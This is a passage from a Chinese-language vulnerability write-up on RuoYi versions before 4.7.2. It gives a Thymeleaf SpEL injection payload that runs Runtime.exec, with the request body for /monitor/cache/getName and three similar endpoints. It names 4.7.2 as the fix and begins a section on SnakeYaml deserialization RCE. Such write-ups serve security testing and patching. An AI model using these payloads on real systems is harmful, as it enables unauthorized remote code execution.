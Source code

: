   
增加空格的办法进行绕过。  
  
- **${T (java.lang.Runtime).getRuntime().exec(“calc.exe”)}**  
 增加空格接口/monitor/cache/getName  
  
- 构包，接口   
**/monitor/cache/getName**  
 (需要有效的身份Cookie)  
  
- 注入  

```
cacheName
```

  
不能为空  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGmOFr4vzAKGiboFZVQOgwXUD8CjHeEWy9ib7ESdNRsg45nPpLGdvrM0Yw/640?wx_fmt=png&from=appmsg "")  

```
bady: **cacheName=123&fragment=${T (java.lang.Runtime).getRuntime().exec(“calc.exe”)}**
```

  
四个接口的攻击方式一致，payload一致  
#### 接口/monitor/cache/getKeys  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGe2KDk5gfgt4JLty6TC7IINxoCsTCNPkw6OjKF03UG1QtPCrtza66WQ/640?wx_fmt=png&from=appmsg "")  
#### 接口/monitor/cache/getValue  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGORJibtPzk98NaFRdw4kbW3tzzwa2m7e6kSgr4EQ4BoH5c4M1DQeEVpA/640?wx_fmt=png&from=appmsg "")  
#### 接口/demo/form/localrefresh/task  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGq0cpLbDYKxrvT4RFSVfKIicpEVfMKeJtzOkms2KiauO31SJamich3Z9dQ/640?wx_fmt=png&from=appmsg "")  
  
修复：  
在RuoYi-4.7.2版本中，使用了thymeleaf版本3.0.14.RELEASE已无法再进行注入。  
## 定时任务远程RCE（<V-4.7.2)  
> 需要注意的是由于是从远程加载类，通常只加载一次后，就会缓存该类，之后不会再加载，因此若在测试过程中，命令没有执行成功，可重新创建定时任务，更换端口等操作多次尝试。  
  
### SnakeYaml 反序列化  
#### 简介  
- 通常只要引用了  

```
Snakeyaml
```

  
包的几乎都可进行反序列化  
  
- 可查看代码是否调用   
**new Yaml()**  
;  
  